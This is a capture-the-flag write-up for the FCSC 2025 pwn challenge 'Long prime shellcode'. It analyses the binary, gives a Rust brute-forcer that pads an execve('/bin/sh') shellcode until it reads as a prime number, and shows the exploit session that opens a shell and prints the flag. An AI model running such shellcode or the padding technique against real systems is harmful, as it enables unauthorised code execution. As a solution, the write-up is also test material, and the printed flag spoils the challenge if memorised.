



# Long prime shellcode

This challenge is the second most solved pwn challenge at the 2025 edition of the FCSC. The only provided resources are an address and port and the copy of the binary to exploit.

## Playing with the service

```
➜  02-long-prime-shellcode nc chall.fcsc.fr 2100  
hello world
Error: input is too small (got 0 bits)
^C

➜  02-long-prime-shellcode nc chall.fcsc.fr 2100 
123abc
Error: input is too small (got 7 bits)
^C

➜  02-long-prime-shellcode nc chall.fcsc.fr 2100 
111111
Error: input is too small (got 17 bits)
^C

➜  02-long-prime-shellcode nc chall.fcsc.fr 2100 
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
Error: input is too small (got 316 bits)

➜  02-long-prime-shellcode nc chall.fcsc.fr 2100 
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
Error: wrong input
^C
```

It seems that the binary expects a HUGE decimal number. With the hint in the title of the challenge, a first guess would be that the binary expects a prime number. Let's see if binary analysis can confirm this.

## Binary analysis

The binary has a single, small, main function. First, it reads `0x400` bytes from the user.



The input is then interpreted as a huge big endian number and its bit length is checked using the `_mbedtls_mpi_bitlen` function. It is expected to be between `0x400` and `0x1000`.



After a quick search, `mbedtls` is a library that provides, amongst other things, math utils to deal with large numbers. Let's check we are right:

```
➜  02-long-prime-shellcode ldd long-prime-shellcode
...
	libmbedcrypto.so.7 => /lib64/libmbedcrypto.so.7 (0x00007f712e359000)
...
```

The prime number is then written back to the stack in its byte form in big endian, which is the same as the initial user input, and the stack page that contains this number is `mprotect`-ed to `RWX`. Finally, the program jumps to the first instruction of this prime number.



### Takeaway

In short: we need to find a shellcode between `0x80` and `0x200` bytes that represents a big-endian prime number.

## Solving the challenge

### Strategy

To solve this challenge, I decided to craft a shellcode and to append some junk bytes to it in order to make it prime. The shellcode is simply an `execve("/bin/sh", NULL, NULL)` shellcode, so we dont care about the remaining bytes. I dont know if it really cares, but just in case I decided to append only prime bytes (they should at least not be even numbers).

To ensure that the results were exactly the same on the binary, I opted for small rust program that uses the same library as in the program, `mbedtls`. Luckily for us, there exists a crate that wraps this library.

### Implementation

```
use mbedtls::{
    bignum::Mpi,
    rng::{CtrDrbg, Random, Rdseed},
};
use rand::Rng;
use std::env;

const BYTE_PRIMES: [u8; 54] = [
    0x02, 0x03, 0x05, 0x07, 0x0b, 0x0d, 0x11, 0x13, 0x17, 0x1d, 0x1f, 0x25, 0x29, 0x2b, 0x2f, 0x35,
    0x3b, 0x3d, 0x43, 0x47, 0x49, 0x4f, 0x53, 0x59, 0x61, 0x65, 0x67, 0x6b, 0x6d, 0x71, 0x7f, 0x83,
    0x89, 0x8b, 0x95, 0x97, 0x9d, 0xa3, 0xa7, 0xad, 0xb3, 0xb5, 0xbf, 0xc1, 0xc5, 0xc7, 0xd3, 0xdf,
    0xe3, 0xe5, 0xe9, 0xef, 0xf1, 0xfb,
];

const MIN_BITLEN: usize = 0x400;
const MAX_BITLEN: usize = 0x1000;

fn main() {
    // Parse args
    let shellcode_path = env::args()
        .skip(1)
        .next()
        .expect("Usage: shellcode-cracker <path/to/shellcode.bin>");
    println!("Selected shellcode {}", shellcode_path);

    // Read shellcode as number
    let mut shellcode = std::fs::read(shellcode_path).unwrap();
    let number = Mpi::from_binary(&shellcode).unwrap();
    println!(
        "Desired MSB for prime number: {:02x?} = {}",
        shellcode, number
    );

    // Seed RNG
    let mut mbed_rng = CtrDrbg::new(Rdseed.into(), Some(b"fcsc2025")).unwrap();
    let mut rand_rng = rand::rng();

    // Fill number to have enough bits
    let number_bitlen = number.bit_length().unwrap();
    let mut number_extension = vec![0u8; (MIN_BITLEN - number_bitlen) >> 3];
    mbed_rng.random(&mut number_extension).unwrap();
    shellcode.extend(number_extension);
    let mut number = Mpi::from_binary(&shellcode).unwrap();
    println!(
        "Extended shellcode to match minimum size: {:02x?} = {}",
        shellcode, number
    );

    println!("\n*** Starting bruteforce ***\n");
    while number.bit_length().unwrap() < MAX_BITLEN {
        // Try last byte to every prime number
        shellcode.push(0);
        for p in BYTE_PRIMES {
            *shellcode.last_mut().unwrap() = p;
            number = Mpi::from_binary(&shellcode).unwrap();
            if number.is_probably_prime(0x2a, &mut mbed_rng).is_ok() {
                println!("Found number!");
                println!("Number = {:02x?} = {}", number.to_binary().unwrap(), number);
                return;
            }
        }

        // If it failed, set this byte to random number and keep going to next byte
        *shellcode.last_mut().unwrap() = rand_rng.random::<u8>();
        number = Mpi::from_binary(&shellcode).unwrap();

        println!("Failed... trying {:02x?}", number.to_binary().unwrap())
    }
}
```

## Result

Let's compile the shellcode and bruteforce the remaining bytes:

```
➜  02-long-prime-shellcode make
mkdir -p /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build
as -msyntax=intel -o /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.o /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/shellcodes/bin_sh.S
ld --oformat=elf64-x86-64 -o /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.elf /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.o
objcopy -O binary -j .text /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.elf /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.bin
cd /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/shellcode-cracker && cargo r /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.bin
    Finished `dev` profile [unoptimized + debuginfo] target(s) in 0.03s
     Running `target/debug/shellcode-cracker /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.bin`
Selected shellcode /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.bin
Desired MSB for prime number: [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00] = 500733519669422711764184654288391209859308339123159339336453700633978880
Extended shellcode to match minimum size: [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00, 46, 93, 77, ff, 65, b5, 88, be, ad, 6f, f9, e5, f3, 2b, 5d, ce, 03, 7d, 5a, 34, 19, de, ed, 19, 13, e6, a8, 14, c9, 7a, c9, 99, 1e, 81, 7f, 44, c0, c8, 6c, 44, db, 69, 1e, f9, fd, 5f, c8, b0, 87, 61, 80, 9e, 3f, 29, 17, c6, 3e, 21, 27, 46, 1a, 3a, 9c, 2b, 7a, 09, f2, 2b, c4, a9, 1e, e9, 96, e3, d5, ac, 3a, 34, 62, e1, 5d, 06, c6, 45, 32, c4, 1d, c7, 76, 3d, c5, 98, 98, 6f, 2d, c3, 4b, 2d] = 50947545412940048806890084286286511119979792320386757417058998695880982031126283318714970488975244833903394467021120152909494085779350559698466954657755119630652960259692101433036851199343736845279182595212224836658648766525298070050837215138768537078326616016954834589233254532010860855161599348347198720813

*** Starting bruteforce ***

Failed... trying [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00, 46, 93, 77, ff, 65, b5, 88, be, ad, 6f, f9, e5, f3, 2b, 5d, ce, 03, 7d, 5a, 34, 19, de, ed, 19, 13, e6, a8, 14, c9, 7a, c9, 99, 1e, 81, 7f, 44, c0, c8, 6c, 44, db, 69, 1e, f9, fd, 5f, c8, b0, 87, 61, 80, 9e, 3f, 29, 17, c6, 3e, 21, 27, 46, 1a, 3a, 9c, 2b, 7a, 09, f2, 2b, c4, a9, 1e, e9, 96, e3, d5, ac, 3a, 34, 62, e1, 5d, 06, c6, 45, 32, c4, 1d, c7, 76, 3d, c5, 98, 98, 6f, 2d, c3, 4b, 2d, e5]

<..snipped..>

Failed... trying [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00, 46, 93, 77, ff, 65, b5, 88, be, ad, 6f, f9, e5, f3, 2b, 5d, ce, 03, 7d, 5a, 34, 19, de, ed, 19, 13, e6, a8, 14, c9, 7a, c9, 99, 1e, 81, 7f, 44, c0, c8, 6c, 44, db, 69, 1e, f9, fd, 5f, c8, b0, 87, 61, 80, 9e, 3f, 29, 17, c6, 3e, 21, 27, 46, 1a, 3a, 9c, 2b, 7a, 09, f2, 2b, c4, a9, 1e, e9, 96, e3, d5, ac, 3a, 34, 62, e1, 5d, 06, c6, 45, 32, c4, 1d, c7, 76, 3d, c5, 98, 98, 6f, 2d, c3, 4b, 2d, e5, 71, 85, a4, 5f, bf, 4c, 7d, 93, 5f, 9a, b8, 62, 8b, c1, 3e, e5]
Found number!
Number = [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00, 46, 93, 77, ff, 65, b5, 88, be, ad, 6f, f9, e5, f3, 2b, 5d, ce, 03, 7d, 5a, 34, 19, de, ed, 19, 13, e6, a8, 14, c9, 7a, c9, 99, 1e, 81, 7f, 44, c0, c8, 6c, 44, db, 69, 1e, f9, fd, 5f, c8, b0, 87, 61, 80, 9e, 3f, 29, 17, c6, 3e, 21, 27, 46, 1a, 3a, 9c, 2b, 7a, 09, f2, 2b, c4, a9, 1e, e9, 96, e3, d5, ac, 3a, 34, 62, e1, 5d, 06, c6, 45, 32, c4, 1d, c7, 76, 3d, c5, 98, 98, 6f, 2d, c3, 4b, 2d, e5, 71, 85, a4, 5f, bf, 4c, 7d, 93, 5f, 9a, b8, 62, 8b, c1, 3e, e5, 3d] = 1136168228744543667092687598228118685733169310052882866571434529108670639140276558090927371324394613684412034068822809408889679304907637098415128356906066471131711077113554360984959205701023760002121431057599946827011250945948208872787397503097032067020434475433028242919456722139980945179703776777738662894365740672096622488149105027122866165223712061
rm /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.elf /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.o
```

Now let's give this number to the binary:

```
➜  02-long-prime-shellcode nc chall.fcsc.fr 2100 
1136168228744543667092687598228118685733169310052882866571434529108670639140276558090927371324394613684412034068822809408889679304907637098415128356906066471131711077113554360984959205701023760002121431057599946827011250945948208872787397503097032067020434475433028242919456722139980945179703776777738662894365740672096622488149105027122866165223712061
ls
flag.txt
long-prime-shellcode
cat flag.txt
FCSC{41948264d0f83ddb2ececa5267e30cb4ce7fd6c7bab2f7b2b935adfcc99b5662}
```
